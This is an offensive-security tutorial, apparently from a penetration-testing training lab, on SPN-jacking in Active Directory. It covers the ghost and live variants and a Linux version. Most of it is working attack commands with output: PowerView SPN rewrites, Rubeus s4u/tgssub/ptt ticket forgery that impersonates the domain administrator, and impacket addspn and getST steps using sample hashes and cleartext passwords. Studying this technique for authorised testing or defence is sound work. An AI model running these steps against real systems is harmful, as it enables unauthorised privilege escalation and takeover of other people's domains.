


This kind of attack leverages alternative method to abuse `WriteSPN` rights. Specifically when we are not able to crack the password(by adding a fake SPN and Kerberoasting).
SPN jacking works by using the `WriteSPN` rights to remove the SPN from a intended server and configuring it into the target machine(victim).

## How to enumerate?
You can do it in Bloodhound with the following Cypher query to show all the available paths from you controlled user that can leverage a "**WriteSPN**" attribute.
```cypher
MATCH p=(n:User)-[r1:WriteSPN*1..]->(c:Computer) RETURN p
```


# Attacks
## Ghost SPN-Jacking
Ghost SPN-Jacking targets scenarios where an SPN, previously associated with a computer or service account, is either no longer in use due to the deletion or renaming of the account, or it belongs to a custom service class that has been removed. Such SPNs are often left unattended in systems configured for Kerberos Constrained Delegation, creating a vulnerability ripe for exploitation.


In this attack scenario the attacker user(Gabriel) wan't to take over WEB01 and we must first ensure that the computer we own(Admin over SRV01) have a "Constrained Delegation" active on the victim.
```powershell-session
Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto

name  msds-allowedtodelegateto
----  ------------------------
SRV01 {www/WS01, www/WS01.inlanefreight.local, dmserver/DBSRV003, dmserver/DBSRV003.inlanefreigth.local...}
```
Now we need to find a "orphan" SPN from SRV01 and assign to the WEB01(victim).
```powershell-session
Import-Module C:\Tools\Powerview.ps1
Import-Module C:\Tools\Get-ConstrainedDelegation.ps1
Get-ConstrainedDelegation -CheckOrphaned

Type  Name  Target  SPN
----  ----  ------  ---
Computer SRV01  DATABASE01 dhcp/DATABASE01
Computer SRV01  DATABASE01 dhcp/DATABASE01.inlanefreigth.local
```
Write down the actual picture on WEB01 so we can rollback later on.
```powershell-session
Get-DomainComputer WEB01 | Select-Object -ExpandProperty serviceprincipalname
WSMAN/WEB01
WSMAN/WEB01.inlanefreight.local
TERMSRV/WEB01
TERMSRV/WEB01.inlanefreight.local
RestrictedKrbHost/WEB01
HOST/WEB01
RestrictedKrbHost/WEB01.inlanefreight.local
HOST/WEB01.inlanefreight.local
```
Now can we assign it.
```powershell-session
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dhcp/DATABASE01'} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=WEB01$)(name=WEB01$)(displayname=WEB01$))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'dhcp/DATABASE01' for object 'WEB01$'
```
This action misaligns the SPN's intended association, tricking the Kerberos authentication system into recognizing `WEB01` as the legitimate endpoint for the services initially tied to the SPN.
```powershell-session
.\Rubeus.exe s4u /domain:inlanefreight.local /user:SRV01$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dhcp/DATABASE01" /nowrap
```
Now the obtained ticket isn't still valid because the FQDN misaligneation so we need to request a new ticket to the TGS with a valid SPN.
```powershell-session
.\Rubeus.exe tgssub /ticket:<SNIP> /altservice:cifs/WEB01 /nowrap
```
And inject into current session.
```powershell-session
 .\Rubeus.exe ptt /ticket:doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1h<SNIP>
```
When finished please rollback as before.

## Live SPN-Jacking
`Live SPN-Jacking` requires active manipulation of SPNs currently in use within the network environment. This technique is more complex than the former as it involves manipulating live SPNs, which requires a more subtle understanding of Active Directory's delegation and permission intricacies.


In this context, we explore the scenario with `SRV01`, a server configured for Constrained Delegation with an SPN currently linked to `EXCH03` and `DBSRV003`. Importantly, we have `WriteSPN` rights on `DBSRV003` and `WEB01`.

Normally only *Domain Admins* can assign double SPNs so we must first remove a already in use SPN from DRBSRV003 to assign it to the victim(WEB01). We start by getting a list of the legit SPN so we can roolback later on.
```powershell-session
Get-DomainComputer DBSRV003 -Properties 'serviceprincipalname' | Select-Object -ExcludeProperty serviceprincipalname

serviceprincipalname
--------------------
dmserver/DBSRV003.inlanefreight.local
dmserver/DBSRV003
WSMAN/DBSRV003
WSMAN/DBSRV003.inlanefreight.local
...SNIP...
```
Now we can start by clearing the SPNs.
```powershell-session
Set-DomainObject -Identity DBSRV003 -Clear 'serviceprincipalname' -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=DBSRV003)(name=DBSRV003)(displayname=DBSRV003))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'DBSRV003$'
```
Assign the unused(just cleared) to the victim target(WEB01).
```powershell-session
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dmserver/DBSRV003'} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=WEB01)(name=WEB01)(displayname=WEB01))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'dmserver/DBSRV003' for object 'WEB01$'
```
We can request a ticket to TGS for impersonation, again here a missmatch will occur, this is the goal of the attack.
```powershell-session
.\Rubeus.exe s4u /domain:inlanefreight.local /user:SRV01$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dmserver/DBSRV003" /nowrap
```
Similar as before the TGS will not work as there is a missmatch on the FQDN so we need to request a new one with a valid SPN.
```powershell-session
.\Rubeus.exe tgssub /ticket:doIGtDCCBrCgAwIBBaEDAgEWooIF<SNIP> /altservice:HTTP/WEB01 /nowrap
```
And lastly injecting the ticket into memory.
```powershell-session
.\Rubeus.exe ptt /ticket:doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1h<SNIP>
```
When finished please rollback as before.
```powershell-session
 Set-DomainObject -Identity DBSRV003 -Set @{serviceprincipalname='WSMAN/DBSRV003','WSMAN/DBSRV003.inlanefreight.local','TERMSRV/DBSRV003','TERMSRV/DBSRV003.inlanefreight.local','RestrictedKrbHost/DBSRV003','HOST/DBSRV003','RestrictedKrbHost/DBSRV003.inlanefreight.local','HOST/DBSRV003.inlanefreight.local'} -Verbose
```

## Attacking from Linux
Same steps can be archived from linux and can be done as follows.
1. Show SPNs listed in the KCD configuration(we find that the one we want to use is **MSSQL\SRVWEB07**)
```
┌──(root㉿kali)-[/home/user/Downloads/krbrelayx]
└─# impacket-findDelegation -target-domain inlanefreight.local -dc-ip 172.16.92.10 -dc-host dc02 inlanefreight.local/gabriel:Godisgood001
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

AccountName  AccountType  DelegationType                      DelegationRightsTo                    
-----------  -----------  ----------------------------------  -------------------------------------
eldridge     Person       Constrained w/ Protocol Transition  www/WS01                              
eldridge     Person       Constrained w/ Protocol Transition  www/WS01.inlanefreight.local          
SRV01$       Computer     Constrained w/ Protocol Transition  MSSQL/SRVWEB07                        
SRV01$       Computer     Constrained w/ Protocol Transition  MSSQL/SRVWEB07.inlanefreight.local    

```  
2. Remove SPN from target if required (live SPN-jacking), in this case we will remove from **MSSQL \ SRVWEB07** 
```
python3 addspn.py 172.16.92.10 -u 'inlanefreight.local\elieser' -p 'Coglione1!' --clear -t 'SRVWEB07$' -dc-ip 172.16.92.10 
```
3. Add back a SPN that targets the victim we want to takeover(**WEB01**) , but remember we will re-use the SPN from the **SRVWEB07**
```
python3 addspn.py 172.16.92.10 -u 'inlanefreight.local\elieser' -p 'Coglione1!' --spn 'MSSQL/SRVWEB07' -t 'WEB01$' -dc-ip 172.16.92.10
```
4. With the SPN pointing to our target(**WEB01**), request an impersonating service ticket for the SPN through S4U2self + S4U2proxy.  In this case, `SRV01` (is allowed to perform a Constrain Delegation on behalf of **SRVWEB007**) and the machine hash is obtainer cause we are admin on it!
```
//Checking delegation
Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto

name  msds-allowedtodelegateto
----  ------------------------
SRV01 {MSSQL/SRVWEB07, MSSQL/SRVWEB07.inlanefreight.local, www/WS01, www/WS01.inlanefreight.local...}

//Getting the TGT
impacket-getST -spn 'MSSQL/SRVWEB07' -impersonate "Administrator" 'inlanefreight.local/SRV01$' -hashes :f5b17ebb6b50c956b6e068a4934aed7b -dc-ip 172.16.92.10
```
5. Edit the ticket's SPN (service class and/or hostname) to match the new server hostname.
```
//Getting the repo
git clone -b tgssub https://github.com/ShutdownRepo/impacket/ tgssub

//Getting the aligned TGT
python3 examples/tgssub.py -in ../Administrator@MSSQL_SRVWEB07@INLANEFREIGHT.LOCAL.ccache -out ../new_admin.ccache -altservice "cifs/WEB01"
```
Point to the ticket and enjoy. When done, please restore the settings.